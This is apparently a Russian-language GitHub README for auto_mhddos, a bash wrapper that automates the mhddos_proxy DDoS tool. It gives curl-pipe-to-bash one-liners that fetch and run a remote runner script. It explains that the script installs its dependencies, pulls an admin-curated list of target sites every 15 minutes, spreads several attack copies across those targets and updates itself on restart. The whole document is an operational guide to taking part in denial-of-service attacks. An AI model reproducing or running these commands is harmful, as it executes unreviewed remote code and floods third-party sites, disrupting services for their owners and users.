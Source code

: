 ### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash`

* Скрипт автоматически устанавливается git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

* При ручном перезапуске скрипт автоматически обновляет mhddos_proxy і MHDDoS.

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 2 копии mhddos_proxy. Каждая копия независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/KarboDuck/karbo-wiki/master/runner.sh | bash -s -- 3` Если в списке всего две цели (две команды, начинающиеся на "runner.py"), то запускать 3 копии нет смысла. Вреда правда тоже не будет. Скрипт возьмет две цели, а третью копию программы просто не запустит.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

Чтобы завершить скрипт. Простой закройте окно с терминало. ИЛИ. В другом терминале выполните команду "pkill -f python3", потом в основном терминале нажмите CTRL + C.
